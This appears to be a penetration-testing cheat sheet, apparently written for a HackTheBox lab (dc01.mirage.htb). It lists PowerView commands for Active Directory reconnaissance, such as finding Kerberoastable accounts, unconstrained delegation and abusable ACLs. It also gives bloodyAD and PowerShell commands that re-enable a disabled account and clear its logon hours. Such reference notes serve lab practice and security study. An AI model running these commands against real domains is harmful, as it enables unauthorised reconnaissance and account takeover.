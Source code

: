 

## Common Commands

### User Enumeration
```powershell
Get-DomainUser                   # Get all users
Get-DomainUser -Identity jdoe    # Get info on specific user
Get-DomainUser -SPN              # Find Kerberoastable accounts
Get-DomainUser -AdminCount 1     # Find privileged users (adminCount=1)
```

### Computer Enumeration
```powershell
Get-DomainComputer
Get-DomainComputer -OperatingSystem "*Server*"
Get-DomainComputer -Unconstrained
```

### Group Enumeration
```powershell
Get-DomainGroup
Get-DomainGroupMember -Identity "Domain Admins"
Get-DomainGroup -AdminCount 1
```
### Domain Enumeration
```powershell
Get-Domain                      # Basic info about the domain
Get-DomainPolicy                # Password and Kerberos policy
Get-NetDomainController         # Get DCs
Get-NetForestTrust              # Enumerate trust relationships
```

### User Hunting
```powershell
Find-DomainUserLocation         # Find where users are logged in
Find-DomainShare                # List accessible shares
Find-InterestingDomainShare     # Find shares with sensitive info
Invoke-UserHunter               # Locate privileged users on machines
```

### ACL/Delegation Abuse
```powershell
Get-ObjectAcl -SamAccountName jdoe -ResolveGUIDs
Find-InterestingDomainAcl
Find-Delegation
```

### OU and GPO Enumeration
```powershell
Get-DomainOU
Get-DomainGPO
Get-DomainGPOLink
```

# Enable AD Account

```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -k remove uac javier.mmarshall -f **ACCOUNTDISABLE**
```

```powershell
Enable-ADAccount javier.mmarshall
```

# Change LogonHours

```powershell
Set-ADUser -Identity "javier.mmarshall" -Clear logonHours
```

```powershell
$logonHours = New-Object 'System.Byte[]' 21

0..20 | ForEach-Object { $logonHours[$_] = 0xFF }

Set-ADUser -Identity javier.mmarshall -Replace @{logonHours = $logonHours}
```

or
```
bloodyAD --host dc01.mirage.htb -d mirage.htb -k set object -v ///////////////////// --raw javier.mmarshall logonHours
```